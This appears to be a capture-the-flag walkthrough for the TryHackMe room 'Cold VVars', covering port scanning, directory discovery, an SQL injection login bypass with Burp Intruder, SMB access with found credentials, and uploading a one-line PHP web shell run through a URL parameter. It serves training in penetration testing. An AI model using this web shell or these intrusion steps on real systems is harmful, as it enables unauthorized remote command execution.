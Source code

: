 # Cold VVars
![image](https://user-images.githubusercontent.com/5285547/125272663-03ea6780-e304-11eb-9595-4169d0b8fdc3.png)
Room link: https://tryhackme.com/room/coldvvars

Target IP: 10.10.236.49

## Nmap 

```
PORT     STATE SERVICE
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
8082/tcp open  blackice-alerts
```

## Websites
### Port 8080

After a quick gobuster I found a new endpoint /dev, can use OPTIONS to bypass the 403,405
```
http://10.10.236.49:8080/dev/
http://10.10.236.49:8080/dev/note.txt
```
```
curl 10.10.236.49:8080/dev/note.txt 
```
Contents: 
```
Secure File Upload and Testing Functionality
```

### Port 8082

Home page
```
http://10.10.236.49:8082
```

### Brutefoce login (sqli) 
Scanning the URL with gobuster shows a login page (/login)  

[Bypass List: Sql Injection List](/tryhackme/coldVVars/sql_Injection_Bypass.txt)

Using burp's intruder we can capture the login and use the payloads from the list above. 

![image](https://user-images.githubusercontent.com/5285547/125278244-60e91c00-e30a-11eb-8c17-5f1195f81baf.png)

### SMB

Seeing we have SMB ports open lets enum the SMB protocal. 

```
smbclient -L \\10.10.236.49
```

![image](https://user-images.githubusercontent.com/5285547/125278478-b45b6a00-e30a-11eb-8dc2-12314c2701ae.png)

We have no READ/WRITE as a guest user. Lets try the creds from above for the SECURED samba share. 

Login SMB
```
smbclient \\\\10.10.236.49\\Secured -U ArthurMorgan
pass: DeadEye
```

Now we are logged in we can get a reverse shell, putting a file on the server. 

```
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 0.2 kb/s)
smb: \> ls
  .                                   D        0  Mon Jul 12 12:18:30 2021
  ..                                  D        0  Thu Mar 11 12:52:29 2021
  note.txt                            A       45  Thu Mar 11 12:19:52 2021
  shell.php                           A       28  Mon Jul 12 12:18:30 2021

                7743660 blocks of size 1024. 4483140 blocks available
```

Knowing where note.txt was stored from earlier we can get the shell.php file at  
```
http://10.10.236.49/dev/shell.php?c=id
```
![image](https://user-images.githubusercontent.com/5285547/125279259-a528ec00-e30b-11eb-8c23-8fb65ac80de3.png)

You can use a php reverse shell here, I like to test with a simple php script first.  
shell.php
```
<?php system($_GET['c']);?>
```
  




